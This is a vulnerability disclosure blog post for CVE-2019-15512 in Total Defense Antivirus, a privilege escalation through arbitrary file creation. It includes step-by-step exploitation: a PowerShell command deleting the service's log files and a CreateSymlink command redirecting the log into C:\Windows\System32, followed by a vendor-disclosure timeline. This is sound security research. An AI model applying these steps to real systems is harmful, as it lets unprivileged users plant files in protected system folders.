 ```yaml
---
layout: post
title:  "CVE-2019-15512 - Total Defense Antivirus - Elevation of Privilege (Arbitrary File Creation) Vulnerability"
date:   2019-08-25 10:39:03 +0800
categories: [security, eop]
---
```


Overview
--------
Total Defense Common Scheduler Service creates a log file in "C:\ProgramData\TotalDefense\Consumer\ISS\9\ccschedulersvc\" by default. The file are created, accessed and manipulated by privileged (SYSTEM) processes of Total Defense. The log and folder have permissive access rights that allow unprivileged users to add/remove files and change properties. Version 9.0.0.773 are affected. Different version and product might be affected too, but untested.

Vulnerability Analysis
----------------------
Logs files are created by SYSTEM processes, and are made writeable to the Everyone group. Arbitrary file creation can be achieved by abusing the log file creation: an unprivileged user can replace these log files by pseudo-symbolic links to arbitrary files. When a log is generated, a privileged Total Defense (Scheduler Service) process will create the log file and set its access rights, offering write access to the Everyone group.

In order to achieve an arbitrary create file, an unprivileged user can:
1. Delete all files in "C:\ProgramData\TotalDefense\Consumer\ISS\9\ccschedulersvc\"
2. Create a pseudo-symlink named "C:\ProgramData\TotalDefense\Consumer\ISS\9\ccschedulersvc\ccschedulersvc.log" that points to "C:\Windows\System32\test.dll"
3. The scheduler service can be restart or wait until computer gets rebooted. Once rebooted / restarted, it will create arbitrary file on "C:\Windows\System32\" folder.

Exploitation
------------
Delete all files inside the folder:
```
Remove-Item -Force "C:\ProgramData\TotalDefense\Consumer\ISS\9\ccschedulersvc\*"
```

Using CreateSymlink tool by James Forshaw to create a symbolic link:
```
CreateSymlink.exe "C:\ProgramData\TotalDefense\Consumer\ISS\9\ccschedulersvc\ccschedulersvc.log" C:\Windows\System32\test.dll
```

Then restart the computer or the service “Total Defense Common Scheduler Service” to take effect on file creation. A successful exploitation can be achieved as in following:
![Screenshot broadcast](https://raw.githubusercontent.com/nafiez/nafiez.github.io/master/static/img/_posts/exploited.png "Screenshot broadcast")

Arbitrary file creation successful in the folder "C:\WINDOWS\SYSTEM32":
![Screenshot broadcast](https://raw.githubusercontent.com/nafiez/nafiez.github.io/master/static/img/_posts/exploited2.png "Screenshot broadcast")

**Disclosure timeline**
```
2019-04-18 - Reported to Total Defense (via email)
2019-04-18 - Vendor (Support team) ack and asked for more information of if I'm a customer. No further update from them.
2019-07-11 - Sent new email to vendor. 
2019-07-11 - Vendor ack, however still asking if I'm their customer. I told them I am not and need email of their security team / responsible team that handling vulnerability. No more feedback after that.
2019-07-25 - Create ticket to CERT.org with ticket number VU#463169. 
2019-07-29 - CERT ack that they have contact the vendor. 
2019-08-22 - CERT update, they attempt to contact vendor multiple times and no response. CERT requested me to request for CVE. 
2019-08-22 - CVE requested via normal web form.
2019-08-23 - CVE assigned, CVE-2019-15512.
```
